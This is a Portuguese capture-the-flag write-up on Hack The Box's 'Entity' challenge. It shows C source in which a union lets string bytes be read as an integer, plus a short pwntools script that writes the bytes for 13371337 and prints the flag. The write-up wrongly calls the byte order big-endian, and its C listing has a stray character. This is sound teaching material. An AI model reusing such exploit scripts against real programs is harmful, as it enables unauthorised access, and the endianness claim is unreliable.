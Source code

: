 # Entity
Esse write-up será sobre sobre o desafio Entity do CTF Hack The Boo feito pelo Hack the Box para o Halloween.

## Sobre

Nesse desafio havia um arquivo zip para ser baixado e um docker que poderia ser ligado. O zip possuia um executável (ELF), um código escrito em C e um  arquivo de texto que é uma flag falsa para testar. Já no docker estava sendo executado o mesmo programa. O código é o que está a seguir.

``` c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

static union {
    unsigned long long integer;
    char string[8];
} DataStore;

typedef enum {
    STORE_GET,
    STORE_SET,
    FLAG
} action_t;

typedef enum {
    INTEGER,
    STRING
} field_t;

typedef struct { 
    action_t act;
    field_t field;
} menu_t;

menu_t menu() {
    menu_t res = { 0 };
    char buf[32] = { 0 };
    printf("\n(T)ry to turn it off\n(R)un\n(C)ry\n\n>> ");
    fgets(buf, sizeof(buf), stdin);
    buf[strcspn(buf, "\n")] = 0;
    switch (buf[0]) {
    case 'T':
        res.act = STORE_SET;
        break;
    case 'R':
        res.act = STORE_GET;
        break;
    case 'C':
        res.act = FLAG;
        return res;
    default:
        puts("\nWhat's this nonsense?!");
        exit(-1);
    }

    printf("\nThis does not seem to work.. (L)ie down or (S)cream\n\n>> ");
    fgets(buf, sizeof(buf), stdin);
    buf[strcspn(buf, "\n")] = 0;
    switch (buf[0]) {
    case 'L':
        res.field = INTEGER;
        break;
    case 'S':
        res.field = STRING;
        break;
    default:
        printf("\nYou are doomed!\n");
        exit(-1);
    }
    return res;
}

void set_field(field_t f) {
    char buf[32] = {0};
    printf("\nMaybe try a ritual?\n\n>> ");
    fgets(buf, sizeof(buf), stdin);
    switch (f) {
    case INTEGER:
        sscanf(buf, "%llu", &DataStore.integer);
        if (DataStore.integer == 13371337) {
            puts("\nWhat's this nonsense?!");
            exit(-1);
        }
        break;
    case STRING:
        memcpy(DataStore.string, buf, sizeof(DataStore.string));
        break;
    }

}

void get_field(field_t f) {
    printf("\nAnything else to try?\n\n>> ");
    switch (f) {
    case INTEGER:
        printf("%llu\n", DataStore.integer);
        break;
    case STRING:
        printf("%.8s\n", DataStore.string);
        break;
    }
}´

void get_flag() {
    if (DataStore.integer == 13371337) {
        system("cat flag.txt");
        exit(0);
    } else {
        puts("\nSorry, this will not work!");
    }
}

int main() {
    setvbuf(stdout, NULL, _IONBF, 0);
    bzero(&DataStore, sizeof(DataStore));
    printf("\nSomething strange is coming out of the TV..\n");
    while (1) {
        menu_t result = menu();
        switch (result.act) {
        case STORE_SET:
            set_field(result.field);
            break;
        case STORE_GET:
            get_field(result.field);
            break;
        case FLAG:
            get_flag();
            break;
        }
    }

}
```

Como pode ser visto no início do código é definido uma estrutura de dados union que é capaz de interpretar os bits armazenados nela ou como unsigned long long (ull), que é um valor inteiro positivo de 8 bytes, ou como um array de 8 caracteres. Essa  union foi nomeada como DataStore.

O program possui um menu que permite escolher entre T para definir o valor do DataStore, R para imprimir o valor armazenado no DataStore e C que imprime a flag caso o valor do DataStore seja igual ao inteito 13371337.
Ao definir ou imprimir o valor é possível escolher entre L e S para os bits serem interpretados como ull ou string respectivamente. 

O problema desse desafio é que não se pode pedir para armazenar um inteiro com o valor 13371337 e precisamos que o DataStore tenha esse valor para conseguir a flag. Para obter a flag precisa-se conectar no docker, o programa loval é apenas para testar.

![Imagem 01 - Execução do programa](pics/1.png)
<br>**Imagem 01 - Execução do programa** 

## Resolução

Para resolver esse exercício basta enviar como string um valor possa ser também interpretado como o inteiro que desejamos. O valor decimal 13371337 pode ser convertido para o hexadecimal CC07C9, mostrado na Imagem 02.

![Imagem 02 - Conversão decimal para hexa](pics/2.png)
<br>**Imagem 02 - Conversão decimal para hexa** 

Porém a string salva os bytes invertidos por ser Big Endian. Então precisamos enviar o hexadecimal C907CC e zeros até preencher os bytes do DataStore. Porém para enviar esses dados vamos utilizar a biblioteca pwntools do Python com o código a seguir. 

```python
import pwn

p = pwn.process('./entity')

p.sendlineafter(b">>", b"T")
p.sendlineafter(b">>", b"S")
p.sendlineafter(b">>", b"\xc9\x07\xcc\x00\x00\x00\x00\x00")

p.sendlineafter(b">>", b"C")

p.recv(1024)
print(p.recv(1024))
```

A função process é utilizada para iniciar o programa, então a função sendlineafter esperará receber os bytes referentes a ">>" e então enviará os bytes escolhidos. Primeiro enviamos T para definir o DataStore e S para que os bytes sejam interpretados como string, então enviamos "\xc9\x07\xcc\x00\x00\x00\x00\x00". 

Com o DataStore definido com o valor certo pode-se escolher a opção C no menu para que o programa retorne a flag. Assim, a função recv receberá os dados que seriam imprimidos pelo programa e o print imprimirá no terminal. 

A execução desse programa pode ser vista na Imagem 03, entretando é impresso uma flag de teste. 

![Imagem 03 - Execução do programa que obtém a flag](pics/3.png)
<br>**Imagem 03 - Execução do programa que obtém a flag**

Então para conseguir a flag verdadeira durante o CTF bastava trocar a função process pela função connect passando como argumento o ip e porta do docker. Ao após alterar isso e executar o programa a flag é impressa no terminal.
<br><br><br>

---
Lucas Tomio Darim